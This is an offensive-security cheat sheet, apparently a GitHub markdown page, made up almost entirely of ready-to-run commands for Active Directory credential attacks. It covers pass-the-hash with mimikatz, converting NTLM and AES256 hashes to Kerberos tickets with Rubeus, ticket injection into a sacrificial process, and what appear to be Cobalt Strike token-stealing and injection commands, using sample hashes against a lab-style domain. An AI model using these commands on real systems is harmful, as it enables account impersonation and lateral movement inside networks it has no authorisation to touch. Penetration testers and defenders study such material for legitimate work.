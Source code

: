 ## Pass The Hash
```powershell
mimikatz !sekurlsa::pth /user:user3 /domain:marvel.local /ntlm:e19ccf75ee54e06b06a5907af13cef42
```

## Over Pass The Hash (Convert User Hash to Kerberos Ticket)

### NTLM Hash to Kerberos Ticket
```powershell
execute-assembly /root/Rubeus.exe asktgt /user:user3 /domain:marvel.local /ntlm:e19ccf75ee54e06b06a5907af13cef42 /nowrap
```

### AES256 Hash to Kerberos Ticket
```powershell
execute-assembly /root/Rubeus.exe asktgt /user:user3 /domain:marvel.local /aes256:7e7f9ddba13dd0e3b9409ab84f31a41cb6854f314d880a4e81aa51d52b8e9f42 /nowrap /opsec
```

## Pass The Ticket

### Create Sacrificial Process
```powershell
execute-assembly /root/Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
```

### Inject Ticket Inside The New Process
```powershell
execute-assembly /root/Rubeus.exe ptt /luid:0x798c2c /ticket:<TICKET-Base64>
```

### OR
```powershell
execute-assembly /root/Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:marvel.local /username:user3 /password:FakePass /ticket:<TICKET-Base64>
```

### Steal Token From the New Process
```powershell
steal_token 4464
```

### Clear
```powershell
rev2self
kill 4464
```

### Spawn a New Session
```powershell
inject 4464 x64 tcp-local
```

